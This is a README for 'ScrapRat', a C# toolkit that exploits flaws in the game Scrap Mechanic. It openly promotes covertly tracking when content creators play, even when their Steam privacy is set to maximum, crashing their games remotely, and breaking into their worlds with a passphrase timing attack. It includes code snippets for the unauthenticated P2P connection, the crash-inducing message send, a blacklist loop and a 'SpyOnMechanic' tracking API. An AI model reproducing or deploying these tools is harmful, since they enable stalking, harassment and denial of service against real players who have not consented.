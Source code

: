 # Welcome to the ScrapRat repo!
### What is this??
This is a collection of software, code snippets, sample cli's, and demonstrations outlining different impactful CWE's that are currently available to exploit in [Scrap Mechanic](https://www.scrapmechanic.com/) as of 3/21/2024.
As some of you may know, Scrap Mechanic is a wonderful game with plentiful updates and it should come as no surprise as to why these CWE critical vulnerabilities exist in the game and why they will likely continue to exist for the foreseeable future.

Some of the things the CWE's allow for include `cyber stalking`, `remote game crashing`, and `unauthorized world entry`.

Thats right! Have you ever wanted to know when exactly your favorite content creators are playing Scrap Mechanic?
Well now you can forcefully track their Scrap Mechanic activity without their knowledge even if their steam profile is on maximum privacy and they are always 'offline'.

Why stop there? Maybe you get sick and tired of the Scrap Mechanic content..?
Well have I got some new for you! With just a few clicks, their game wont last half a second before crashing! This means no more of that oh so stinky Scrap Mechanic content.

Now, if thats not your cup of tea I've got one last option for you (my personal favorite). In just (on average) 15 minutes, you will have cracked the code and you will be able to join ANY of your favorite content creators when you use the previous cyber stalking tool to find out when they are playing the game. Now you can play with your favorite content creators!

#
Now, back to business...

This repository implements the follow CWE's:

- [x] [CWE-306](https://cwe.mitre.org/data/definitions/306.html) under [Player-GetConnection#L74-L76](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Player/Player.cs#L74-L76)
```csharp
internal HSteamNetConnection GetConnection() =>
this.hSteamNetConnection ??= (HSteamNetConnection)this.Interupt.RunCancelable(() => 
SteamNetworkingSockets.ConnectP2P
    (ref this.NetworkingIdentity, 0, LongTimeoutOptions.Length, LongTimeoutOptions));
```
With additional parameters under [LongTimeoutOptions#L137-L150](https://github.com/TheGuy920/Crashbot/blob/main/ScrapRat/Player/Player.cs#L137-L150)
```csharp
private static readonly SteamNetworkingConfigValue_t[] LongTimeoutOptions = [
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutConnected,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = 500 }
    },
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutInitial,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = int.MaxValue }
    }
];
```
- [x] [CWE-476](https://cwe.mitre.org/data/definitions/476.html) under [Blacklist#L143](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Blacklist/MechanicNoMore.cs#L143)
```csharp
SteamNetworkingSockets.SendMessageToConnection(connection, 0, 0, 0, out long _);
```
- [ ] [CWE-208](https://cwe.mitre.org/data/definitions/208.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)

- [ ] [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)


# Projects
The CWE's above have been implemented in a few different and easy to use solutions. 
* [Blacklist](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L58)
* [Spy Tool](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L28)
* [Passphrase Timing Attack](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L88)

### ScrapRatCli [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample cli has been created demonstrating how to use the Blacklisting feature
```csharp
foreach (ulong sid in steamids)
    Game.Blacklist.Add(sid, true);
```

### ScrapRatWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample WebApi has been created showcasing the cyber stalking capabilities
```csharp
foreach (var steamid in PeopleToTrack)
{
    MagnifiedMechanic mechanic = Game.BigBrother.SpyOnMechanic(steamid);
    mechanic.PlayerLoaded += _ =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mechanic.Name}' ({mechanic.SteamID}) is loaded.");
    mechanic.OnUpdate += evnt =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mechanic.Name}' ({mechanic.SteamID}) is {evnt}");
}
```
